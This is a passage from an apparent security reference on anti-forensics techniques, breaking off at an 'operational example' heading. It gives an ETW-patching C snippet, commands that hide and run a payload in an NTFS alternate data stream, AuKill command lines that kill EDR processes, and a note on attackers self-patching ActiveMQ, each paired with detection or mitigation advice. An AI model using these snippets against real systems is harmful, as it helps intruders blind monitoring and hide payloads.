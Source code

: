 ```
patch `ntdll!EtwEventWrite`/`EtwEventWriteFull` in memory so every ETW call returns `STATUS_SUCCESS`
without emitting the event:

```c
// 0xC3 = RET on x64
unsigned char patch[1] = { 0xC3 };
WriteProcessMemory(GetCurrentProcess(),
                   GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite"),
                   patch, sizeof(patch), NULL);
```
```
Public PoCs (e.g. `EtwTiSwallow`) implement the same primitive in PowerShell or C++.  
Because the patch is **process-local**, EDRs running inside other processes may miss it.  
Detection: compare `ntdll` in memory vs. on disk, or hook before user-mode.

### Alternate Data Streams (ADS) Revival

Malware campaigns in 2023 (e.g. **FIN12** loaders) have been seen staging second-stage binaries
inside ADS to stay out of sight of traditional scanners:

```cmd
rem Hide cobalt.bin inside an ADS of a PDF
type cobalt.bin > report.pdf:win32res.dll
rem Execute directly
wmic process call create "cmd /c report.pdf:win32res.dll"
```
```
Enumerate streams with `dir /R`, `Get-Item -Stream *`, or Sysinternals `streams64.exe`.
Copying the host file to FAT/exFAT or via SMB will strip the hidden stream and can be used
by investigators to recover the payload.

### BYOVD & “AuKill” (2023)

Bring-Your-Own-Vulnerable-Driver is now routinely used for **anti-forensics** in ransomware
intrusions.  
The open-source tool **AuKill** loads a signed but vulnerable driver (`procexp152.sys`) to
suspend or terminate EDR and forensic sensors **before encryption & log destruction**:

```cmd
AuKill.exe -e "C:\\Program Files\\Windows Defender\\MsMpEng.exe"
AuKill.exe -k CrowdStrike
```
```
The driver is removed afterwards, leaving minimal artifacts.  
Mitigations: enable the Microsoft vulnerable-driver blocklist (HVCI/SAC),
and alert on kernel-service creation from user-writable paths.

---

## Linux Anti-Forensics: Self-Patching and Cloud C2 (2023–2025)

### Self‑patching compromised services to reduce detection (Linux)
Adversaries increasingly “self‑patch” a service right after exploiting it to both prevent re‑exploitation and suppress vulnerability‑based detections. The idea is to replace vulnerable components with the latest legitimate upstream binaries/JARs, so scanners report the host as patched while persistence and C2 remain.

Example: Apache ActiveMQ OpenWire RCE (CVE‑2023‑46604)
- Post‑exploitation, attackers fetched legitimate JARs from Maven Central (repo1.maven.org), deleted vulnerable JARs in the ActiveMQ install, and restarted the broker.
- This closed the initial RCE while maintaining other footholds (cron, SSH config changes, separate C2 implants).

Operational example (illustrative)
```